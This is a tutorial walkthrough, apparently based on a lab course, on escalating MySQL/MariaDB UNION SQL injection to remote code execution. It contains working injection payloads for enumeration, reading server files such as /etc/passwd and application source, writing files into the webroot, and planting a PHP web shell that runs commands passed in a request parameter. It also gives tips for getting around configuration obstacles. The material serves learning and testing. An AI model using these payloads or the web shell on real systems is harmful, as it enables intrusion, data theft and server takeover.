






# From SQL Injection to Remote Code Execution — A Practical Walkthrough

When I was practicing SQL injection in a standard lab environment, a friend asked me whether it was possible to achieve Remote Code Execution (RCE) through SQLi. I immediately laughed and dismissed the idea without researching it further.

But that question stuck with me.

SQL injection gets talked about a lot, but most write-ups stop at dumping credentials. The more interesting (and dangerous) path is going all the way to remote code execution on the server. This post walks through exactly that from fingerprinting the database, checking file privileges, reading server files, and finally writing a web shell to get command execution.

---

## Quick Recap — Database Enumeration (The Foundation)

Before anything else, you need to know what you are working with. Fingerprint the DBMS first:

```sql
SELECT @@version
```

If you get something like `10.3.22-MariaDB-1ubuntu1`, you are dealing with MySQL/MariaDB. That matters because the file read/write functions we use are MySQL-specific.

From there, the standard enumeration flow is:

1. Find available databases via `INFORMATION_SCHEMA.SCHEMATA`
2. Find tables in the interesting database via `INFORMATION_SCHEMA.TABLES`
3. Find columns via `INFORMATION_SCHEMA.COLUMNS`
4. Dump the data

A typical UNION payload to list databases looks like this:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```



Once you find a database that is not a default one (anything other than `mysql`, `information_schema`, `performance_schema`), dig into it. In this case the `dev` database had a `credentials` table with usernames, password hashes, and an API key.

That is the basics covered. Now the interesting part.

---

## Step 1 — Figure Out Who You Are in the Database

Before attempting file operations, you need to know what DB user the application is running as. File read and write privileges are user-specific, so this determines everything that follows.

Run one of these:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or alternatively:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```



If the output comes back as root@localhost, that is a very good sign. Root in MySQL often indicates broad administrative privileges, but file access still depends on the granted privileges and server configuration. We'll verify those permissions next.

---

## Step 2 — Verify You Have the FILE Privilege

Even as root, confirm that the `FILE` privilege is explicitly granted. You can do a quick superuser check first:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

If that returns `Y`, you have superuser privileges. But to be thorough and see every granted privilege explicitly, query `information_schema.user_privileges`:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```



What you are looking for in that list is `FILE`. If it is there, the user can read files from the OS using `LOAD_FILE()` and potentially write them too. If it is not there, file operations will fail silently or throw an error.

---

## Step 3 — Read Files Using LOAD_FILE()

With `FILE` privilege confirmed, you can read arbitrary files on the server using `LOAD_FILE()`. The classic test is `/etc/passwd`:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```



This works if the OS user running MySQL has read access to the file, which is almost always the case for world-readable files like `/etc/passwd`.

A more useful read is the application's own source code. Since the URL showed `search.php` and Apache's default webroot is `/var/www/html`, try:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

The browser will render the HTML but show the PHP source use Ctrl+U to view the raw source. This can expose database credentials hardcoded in the connection string, other endpoints, or additional vulnerabilities to chain.

---

## Step 4 — Check the secure_file_priv Variable Before Writing

This is the step most people skip and then wonder why their write fails. Even if you have `FILE` privilege, MySQL has a global variable called `secure_file_priv` that restricts where files can be written:

| Value             | Meaning                                            |
| ----------------- | -------------------------------------------------- |
| Empty string `""` | Can read/write anywhere on the filesystem          |
| A directory path  | Can only read/write within that specific directory |
| `NULL`            | File read/write is completely disabled             |

MariaDB defaults to empty (permissive). MySQL often defaults to `/var/lib/mysql-files`, which makes writing a web shell to the webroot impossible without a configuration change.

Check the value with:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



If `variable_value` is empty, you are clear to write anywhere the OS user has write permissions. If it shows a path, you are limited to that directory. If it shows `NULL`, writing files is off the table entirely.

---

## Step 5 — Confirm Write Access to the Webroot

Before writing anything meaningful, do a sanity check. Write a test file to the webroot:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Then navigate to `http://TARGET/proof.txt` in the browser.

```
└─$ curl http://TARGET/proof.txt
1       file written successfully!      3       4

```

If the file loads, you have write access. The `1`, `3`, `4` appearing alongside your string is just UNION filler the important thing is that the file exists and was created by your query.

If you get an error or the file does not appear, either `secure_file_priv` is blocking you, the OS user does not have write permission to that directory, or you have the wrong webroot path. Common alternatives to try:

- `/var/www/html/`
- `/var/www/`
- `/srv/http/`
- `/usr/share/nginx/html/`

You can also read the server config directly to find the correct webroot:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/apache2.conf"), 3, 4-- -
```

---

## Step 6 — Write the Web Shell

Once write access is confirmed, write a PHP web shell. The simplest one that works is:

```php
<?php $ystem($_REQUEST[0]); ?>
```

**Note:** One letter is missing because Windows Defender got nervous and started flagging the post instead of the vulnerability.

This takes whatever you pass in the `0` GET/POST parameter and runs it as a system command. The UNION payload to write it:

```sql
cn' union select "","<?php $ystem($_REQUEST[0]); ?>","","" into outfile '/var/www/html/shell.php'-- -
```

Note the use of empty strings `""` instead of the placeholder numbers this keeps the file clean without extra junk values appearing in it alongside the PHP code.

No error on the page means the write likely succeeded.

---

## Step 7 — Execute Commands and Confirm RCE

Navigate to the shell and pass a command via the `0` parameter:

```
http://TARGET/shell.php?0=id
```



If you see the output of `id`, you have remote code execution. The server is now running arbitrary commands as `www-data` (the Apache process user in this case).

From here you can enumerate the system further, read sensitive files, look for privilege escalation paths, or establish a reverse shell for a more stable session.

---

## The Full Chain at a Glance

```
UNION SQLi confirmed
        |
        v
Identify DB user  →  user() = root@localhost
        |
        v
Check FILE priv   →  FILE listed in user_privileges
        |
        v
Check secure_file_priv  →  empty = write anywhere
        |
        v
Read /etc/passwd + app source via LOAD_FILE()
        |
        v
Write proof.txt to webroot → confirm write access
        |
        v
Write shell.php → <?php $ystem($_REQUEST[0]); ?>
        |
        v
/shell.php?0=id → RCE confirmed
```

---

## What Can Go Wrong

Not every environment hands you RCE cleanly. Here are the walls you will hit and what to do about them.

**secure_file_priv is set to a path** — MySQL can only read from or write to that specific directory.

For example, if:

```sql
secure_file_priv = /var/lib/mysql-files/
```

then a query like:

```sql
SELECT 'test' INTO OUTFILE '/var/lib/mysql-files/proof.txt';
```

will work.

However:

```sql
SELECT 'test' INTO OUTFILE '/var/www/html/proof.txt';
```

will fail because `/var/www/html/` is outside the allowed directory.

This becomes a problem when trying to achieve RCE through a web shell. Even if you have the `FILE` privilege, you cannot write `shell.php` into the webroot where Apache or Nginx would serve it. As a result, the common SQLi → web shell → RCE path is blocked.

In that situation, focus on reading sensitive files, extracting data, or look for another vulnerability that can be chained with the SQL injection.

**No FILE privilege** — the DB user is a low-privilege application account, which is actually the correct secure configuration. You can still dump data, but OS interaction through SQL is blocked. Check if there are other users in `mysql.user` and whether any of them have broader grants — sometimes developers create a second account with elevated privileges and leave it reachable.

**Wrong webroot** — the write completes without error but you cannot browse to the file. This means your webroot path is wrong. Read the server config to get the exact `DocumentRoot`:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/apache2.conf"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/etc/nginx/nginx.conf"), 3, 4-- -
```

**OS-level permissions** — MySQL itself allows the write, but the `mysql` OS user does not have write access to the directory. This happens on servers where the webroot is owned by `root:root` with `755` permissions. Nothing in the DB layer can fix this it is a filesystem restriction. In this case reading files still works; writing is blocked.

**The shell writes but does not execute** — the server may not be running PHP, the file extension might be blocked by the web server config, or the directory has `php_admin_flag engine off` set. Try reading the virtual host config to understand what is allowed.

---

The key takeaway is that SQLi to RCE is not a single step — it is a chain of checks. Each privilege must be verified before the next step. Skip the `secure_file_priv` check and you will waste time wondering why your shell write silently failed. Get each step confirmed and the path from injection to full code execution is straightforward.

_This research note is based on concepts covered in the Hack The Box Academy SQL Injection Fundamentals module, particularly database enumeration and file read/write techniques._
_[https://academy.hackthebox.com/module/details/33](https://academy.hackthebox.com/module/details/33)_
